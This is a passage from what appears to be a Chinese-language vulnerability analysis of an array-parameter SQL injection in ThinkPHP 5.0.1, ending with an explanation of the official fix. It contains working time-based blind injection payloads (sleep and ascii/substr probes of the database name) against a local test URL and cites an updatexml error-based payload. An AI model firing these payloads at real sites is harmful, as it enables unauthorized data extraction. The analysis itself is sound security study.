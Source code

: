 添加/a尝试提交数据注入尝试：



### 直接对注册接口提交payload

![3.2](3.3.png)



感觉这个漏洞比较鸡肋必须要满足用户接收一个数组输入时才能触发，一般的功能点也不会这样写，但是也不一定吧，遇到的时候可以多尝试。



### 在debug没开启时可以通过时间盲注的形式获取数据，paylaod:

```sql
?username[0]=inc&username[1]=sleep(5)&username[2]=1

http://127.0.0.1:8888/tp5.0.1/public/index.php/index/index/?username[0]=inc&username[1]=If(ascii(substr(database(),1,1))=115,1,sleep(3))&username[2]=1
```



## 4.官方修复原理

输入的val[1]必须和字段值相等才会进行拼接，字段值不可能为paylaod:updatexml(0x7e,user(),0x7e);等注入语句，也就修复了注入问题。
